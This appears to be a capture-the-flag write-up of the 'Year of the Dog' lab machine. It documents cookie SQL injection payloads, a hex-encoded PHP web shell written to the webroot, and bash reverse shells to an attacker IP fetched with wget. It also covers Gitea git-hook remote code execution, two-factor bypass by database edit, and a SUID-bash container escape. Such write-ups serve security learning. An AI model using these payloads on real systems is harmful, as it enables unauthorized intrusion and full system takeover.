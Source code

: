 ## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20120630.png)

I used gobuster for any hidden directories but got nothing.<br>
### SQL INJECTION
Using burp , we see there is a cookie being stored. We could do some injection with the cookie.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20121211.png)

This confirms that SQLi is the way to go. UNION SELECT works.<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- -` gives databse `webapp`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20122020.png)

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -` gives table `queue`

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -` gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using :` INTO OUTFILE '/var/www/html/`<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -` gives:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20124149.png)

Using Command : `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -` we got 1 user:<br>
`dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash`
 
 As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.<br>
 `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -`<br>
 Now if it works:

 ![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20142410.png)

It works!<br>
## INITIAL EXPLOIT
Now to move in , save this : `bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1` to a file and transfer it to the webserver using `<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143013.png)

You should be in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143345.png)

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143630.png)

## FOOTHOLD

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144149.png)

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155929.png)

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.<br>
Let's use SSH port forwarding and check out that port<br>
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144717.png)

Signing in as dylan we get a 2 factor authentication.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144927.png)

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20150729.png)

Let's delete the `two_factor table` from `gitea.db`:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151132.png)

And we're in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151257.png)

## EXPLOITATION
Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.<br>
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`.<br> In this hook , we can write a shell script that will get executed after getting a new commit.<br>

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.<br>
Start a netcat listener, then on your local machine :
```
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20153122.png)

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20154615.png)

Check the `/data/` directory as the files are usually mount to host.<br>

This is the case here as well as the files in `/data` are identical to the `/gitea` directory in Dylan's shell.<br>
Now just transfer the bash file located in `/bin/` to `/data/` and add the permissions.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155558.png)

Back at Dylan's: run `./bash -p` and you got root.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20160038.png)






 
 
 
 



